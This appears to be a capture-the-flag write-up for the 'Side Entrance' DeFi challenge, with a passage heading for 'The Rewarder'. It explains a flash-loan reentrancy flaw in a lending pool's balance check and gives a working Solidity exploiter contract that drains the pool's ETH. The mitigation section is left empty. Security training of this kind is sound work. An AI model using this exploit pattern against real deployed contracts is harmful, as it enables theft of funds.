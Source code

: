 Condition:
- Transfer all tokens from `pool` to `recovery` account

Key Concept:
- Flashloan
- Arbitary External Call
- Incorrect use of `address(this).balance` as a validation method

Solution:

We can deposit `amount` of `ETH` borrowed by `flashloan` into `pool`, and it turns out that `pool` stills contain `amount` of `ETH`, but it's now deposited by us, so we can withdraw it in the following operation

PoC:
```solidity
// add this function inside the test
function test_sideEntrance() public checkSolvedByPlayer {
    exploiter = new SideEntranceExploiter(address(pool));
    exploiter.exploit(ETHER_IN_POOL, recovery);
}

contract SideEntranceExploiter is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;

    constructor(address poolAddress) {
        pool = SideEntranceLenderPool(poolAddress);
    }
    
    function exploit(uint amount, address recovery) external {
        pool.flashLoan(amount);
        pool.withdraw();
        SafeTransferLib.safeTransferETH(recovery, amount);
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {
        
    }
}
```

Mitigation:

---

### The Rewarder

Condition:
- Save as much funds as possible and transfer them to `recovery` account

Key Concept:
- Incorrect State Management
- Double Spending
